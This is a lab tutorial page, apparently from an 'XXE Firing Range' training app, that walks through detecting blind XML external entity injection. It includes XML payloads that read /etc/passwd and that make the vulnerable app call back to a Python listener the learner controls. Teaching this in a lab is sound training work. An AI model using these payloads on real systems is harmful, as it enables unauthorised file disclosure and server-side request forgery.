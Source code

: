 ```yaml
---
title: "Identifying Blind XXE"
weight: 5
---
```


{{% notice note %}}
Make sure you are on the Blind XXE (`/blind-xxe.do`) page of the XXE Firing Range app
{{% /notice %}}

As we saw in the last exercise the following would show the contents of the `/etc/passwd` file. In this exercise it will not work. If we submit the same info as before we get back something different:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<todo>&xxe;</todo>
```

Unfortunately we are not able to see the contents of the file. Instead we are given an error. The error states that the XML parser was expecting to find a couple of tags that it did not find. The good news is that it seems to still successfully parse the XML we provided.

![Malformed XML](/static/img/malformed_xml_both.png)

We can check that by modifying our XML a bit to see if we can clear one of the two errors found:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<todo>
  <description>test</description>
  <b>&xxe;</b>
</todo>
```

This time we see that we do not receive the same error back which tells us that the XML is being processed successfully, but just not showing us the results.

![Malformed XML Category](/static/img/malformed_xml_category.png)

If we try and send XML that is purposely malformed we see that we get back a generic error message. In this XML we do not close the `description` tag.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<todo>
  <description>test
  <b>&xxe;</b>
</todo>
```

And the results are show that the description tag is not closed.

![Malformed XML Unknown](/static/img/malformed_xml_no_description_end_tag.png)

So, we are unable to view the content directly like we did in the Basic XXE exercise. But, we may be able to send the data to a system we control. First, lets setup a generic python webserver on the XXE machine.

First login to the XXE VM by running the following:

```bash
vagrant ssh
```

Change directories to the `dtds` directory (we will use these dtds later on).

```bash
cd /home/vagrant/dtds
```

Then launch a simple python webserver running on port 5000 by running the following within the VM:

``` bash
python3 -m http.server 5000
```

We can see that the server is up and ready for connections.

![Python Webserver](/static/img/python_webserver.png)

Now lets try and get our TODOs site to send a request to the python webserver

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:5000/">
]>

<todo>&xxe;</todo>
```

Notice how we changed it from `file:/` to `http:`. Once we send that we get an error from the web app:

![Malformed XML Unknown](/static/img/scanner_state_not_recognized.png)

But we also notice that a request was performed on our python webserver:

![Python Webserver Request](/static/img/python_webserver_request.png)

So now we need to figure out how do we do two things:

1. Read the contents of the file
2. Request content from our webserver
